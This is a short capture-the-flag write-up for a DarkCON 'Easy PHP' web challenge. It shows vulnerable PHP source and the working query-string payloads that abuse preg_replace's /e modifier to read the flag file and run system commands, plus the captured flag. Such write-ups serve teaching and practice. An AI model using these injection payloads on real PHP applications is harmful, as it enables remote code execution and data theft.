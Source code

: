 Easy PHP
===
**Category**: Web

**Points**: 384 (145 solves)

**Author**: Rosee
### Description
```
Please note....
Note: This chall does not require any brute forcing
```
- Site: `http://easy-php.darkarmy.xyz/`
### Solution
- i access `/robots.txt`, i see `?lmao`
- i have source
```<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```
- flow code: `bruh` and `ni3e` are passed as parameters. In PHP 5.6.4, i can rce via `preg_replace` with `/e` but function `is_payload_danger` disable many function can rce
- i find fucntion `show_source` not disable and we can use move payload.
### Payload
- use `show_source` -> ```?nic3=/CTF/e&bruh=show_source(glob("fl*")[0]);```
- use move payload -> ```?nic3=/CTF/e&bruh=$_GET['cmd']("ls")&cmd=system;
### Flag
- `darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}`
